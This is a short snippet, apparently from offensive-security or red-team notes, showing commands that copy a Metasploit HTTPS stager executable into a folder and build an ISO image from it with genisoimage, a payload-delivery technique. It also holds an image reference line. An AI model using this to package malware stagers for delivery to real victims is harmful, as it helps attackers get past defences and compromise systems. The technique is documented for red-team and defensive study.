 
Create an ISO file with a stager in it

```
mkdir iso_root
cp msfstage_https_x64.exe ./iso_root

genisoimage -o meine_iso.iso -J -R -V "MEINE_ISO" iso_root/

```
